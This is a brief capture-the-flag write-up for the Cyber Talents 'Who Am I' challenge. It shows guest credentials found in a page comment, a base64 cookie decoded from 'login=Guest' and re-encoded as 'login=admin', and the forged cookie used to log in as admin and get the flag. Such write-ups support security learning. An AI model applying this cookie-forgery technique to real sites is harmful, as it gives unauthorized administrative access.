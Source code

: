 # Cyber Talents: Who Am I
* First in page source-code I found the account:
```bash
<!-- 
            Guest Account:
            -=-=-=-=-=-=-=-
            Username:Guest
            Password:Guest  
-->
```
* Second I connected with it
* In coockies section I found: bG9naW49R3Vlc3Q%3D
* after the command:
```bash
echo -n "bG9naW49R3Vlc3Q%3D" | base64 -d
%>login=Guest
```
* then I changed it to:
```bash
echo -n "login=admin" | base64
%>bG9naW49YWRtaW4=
```
* I use it as new coockies to connect
* And then log in with it and got the flag:
```bash
FLag{B@D_4uTh1Nt1C4Ti0n}
```
